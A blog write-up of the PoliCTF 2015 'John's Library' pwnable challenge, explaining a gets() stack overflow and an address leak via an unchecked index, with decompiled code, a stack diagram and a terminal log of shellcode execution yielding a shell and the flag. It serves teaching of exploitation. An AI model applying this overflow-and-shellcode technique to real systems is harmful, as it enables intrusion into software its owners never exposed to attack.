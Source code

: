 ```yaml
---
layout: post
title: "PoliCTF 2015 Pwnable150 John's Library Writeup"
date: 2015-07-15 07:59:02 +0800
comments: true
categories: [ctf, writeup, polictf, 2015]
---
```


The server ([download](https://github.com/ctfs/write-ups-2015/tree/master/polictf-2015/pwnable/johns-library)) is a 32-bit non-stripped binary. When we connect to the server, we got three options:
```
Welcome to the jungle library mate! Try to escape!!
 
 r - read from library
 a - add element
 u - exit
```

Let's see what the first two options do:
<!-- more -->

``` c read_from_library
int read_from_library(int arg_0)
{
  int v2; 

  printf("Insert the index of the book you want to read: ");
  fflush(stdout);
  __isoc99_scanf("%d", &v2);
  getchar();
  printf("%s", len[v2] + arg_0);
  return fflush(stdout);
}
```

``` c add_element
int add_element_to_library(int a1)
{
  int result; 
  int v2; 

  puts("Hey mate! Insert how long is the book title: ");
  fflush(stdout);
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( len[num] + v2 > 1024 )
  {
    puts("Hey you! what are you trying to do??");
    fflush(stdout);
    exit(-1);
  }
  ++num;
  gets((len[num - 1] + a1));
  result = num;
  len[num] = len[num - 1] + 1 + v2;
  return result;
}
```

Inside add\_element\_to\_library(), we can see that there is a call to gets(), which is a dangerous function. The variable 'a1' is the address of a buffer, which is defined in main(), so naturally we can think of buffer overflow attack. Let's examine the binary more closely inside gdb:

```
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
gdb-peda$ 
```

The NX is disabled, so the exploitation becomes straightforward: fill in the buffer ('a1') with shellcode, then replace the return address of main() (since the buffer is defined in main()) with the address of the shellcode. After that, we just need to select "u - exit" to return from main(). Then our shellcode gets executed.

Now the only problem is: how to get the address of the buffer/shellcode.

Inside read\_from\_library(), there is a call to printf():
``` c snippet from read_from_library
printf("%s", len[v2] + arg_0);
```
The variable arg\_0 is also the address of the buffer defined in main(), and 'len' is a global array of integers. Here we are able to print the content located at the address of the buffer ('arg\_0') plus an offset ('len[v2]'). Meanwhile, the offset ('len[v2]') can be controlled inside add\_element\_to\_library():
``` c snippet from add_element_to_library
__isoc99_scanf("%d", &v2);
...
++num;
...
len[num] = len[num - 1] + 1 + v2;
```
This shows that the current offset is determined in the previous call to add\_element\_to\_library().

With all of those info, we can perform the following steps:

* select "a - add element" to set the offset properly 
* select "r - read from library" to leak the address based on the offset set before and get the address of the buffer
* select "a - add element" again to set the offset properly (here I choose to reset the offset to 0 )
* select "a - add element" to send the shellcode concatenated with repeated addresses of the buffer (we need to make this long enough to overwrite the return address of main())
* select "u - exit" to return from main() so that our shellcode gets executed

In order to leak the desired address info,  we need to set the offset correctly in the first step. The call stack will look like this when the function gets() is called:

``` plain
+--------------------+
|         ...        | (higher addresses)
+--------------------+

+--------------------+ <-- start of stack frame of main()
|   return address   | <-- address we want to overwrite
+--------------------+
|   previous ebp     |
+--------------------+
|    the buffer      |
+--------------------+
|       ...          |
+--------------------+
|    the buffer      |
+--------------------+ <-- the address of the buffer

+--------------------+ <-- start of stack frame of add_element_to_library()
| addr of the buffer | <-- parameter of add_element_to_library()
+--------------------+
|   return address   | <-- the address of the instruction after calling add_element_to_library() in main() (0x08048622)
+--------------------+
|   ebp of main()    |
+--------------------+
|       ...          |
+--------------------+
|(frame of gets()..) |
+--------------------+
```

Since the stack grows from higher addresses to lower addresses, the offset we need is a negative number, and it can be found easily using gdb. (I leaked ebp of main() to calculate the address of the buffer, but obviously I can use the address of the buffer directly..)

Here are the code the and the result:
{% include_code poli2015/johns-library.py %}

``` plain
alpha@alpha-th:~$ python johns-library.py
...
ebp: 0xff81fd98
addr buf: 0xff81f98b
 
 r - read from library
 a - add element
 u - exit
a
Hey mate! Insert how long is the book title: 
33
�����
 
 r - read from library
 a - add element
 u - exit
a
 
 r - read from library
 a - add element
 u - exit
Hey mate! Insert how long is the book title: 
2
���1�Ph//shh/bin��PS���
                       ��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������
 
 r - read from library
 a - add element
 u - exit
u
id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
cat /home/ctf/flag
flag{John_should_read_a_real_book_on_s3cur3_pr0gr4mm1ng}
```
